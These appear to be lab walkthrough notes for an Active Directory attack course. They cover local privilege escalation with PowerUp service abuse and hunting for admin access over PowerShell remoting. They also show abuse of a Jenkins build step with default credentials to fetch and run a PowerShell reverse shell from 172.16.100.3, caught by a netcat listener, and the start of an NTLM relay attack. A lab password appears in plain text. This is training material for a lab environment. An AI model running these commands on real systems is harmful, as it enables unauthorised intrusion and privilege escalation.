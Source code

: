 
---


# Learning Objective - 5	
### Flag - Service abused on the student VM for local privilege escalation
```
PS C:\Users\student603> . C:\AD\Tools\PowerUp.ps1
PS C:\Users\student603> Invoke-AllChecks
```
- Let's use the abuse function for Invoke-ServiceAbuse and add our current domain user to the local Administrators group.
```
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
```
- Local Privilege Escalation - PrivEscCheck
```
. C:\AD\Tools\PrivEscCheck.ps1
Invoke-PrivescCheck
```
### Flag - Script used for hunting for admin privileges using PowerShell Remoting
```
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```
```
winrs -r:dcorp-adminsrv cmd
```
### Flag - Jenkins user used to access Jenkins web console
- Login `builduser:builduser` on jenkins and go to `any Project->Configure->Build with-> Execute Windows Batch command`
```
powershell.exe iex (iwr http://172.16.100.3/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.3 -Port 443
```
- open hFS and start nc listener
```
C:\AD\Tools\netcat-win32-1.12\nc64.exe -lvp 443
```
- Build now on jenkins ( Also, make sure to add an exception or turn off the firewall on the student VM.)
### Flag - Domain user used for running Jenkins service on dcorp-ci
- check the username after getting shell



---


# Learning Objective - 6 **
### Flag - Name of the Group Policy attribute that is modified
- there is a directory `\\dcorp-ci\AI` that has a log file
- It turns out that the 'AI' folder is used for testing some automation that executes shortcuts (.lnk files) as the user 'devopsadmin'. Recall that we enumerated a user 'devopsadmin' has 'WriteDACL' on DevOps Policy. Let's try to abuse this using GPOddity.
- First, we will use ntlmrelayx tool from Ubuntu WSL instance on the student VM to relay the credentials of the devopsadmin user.
```
# run on wsl with sudo 'WSLToTh3Rescue!'
```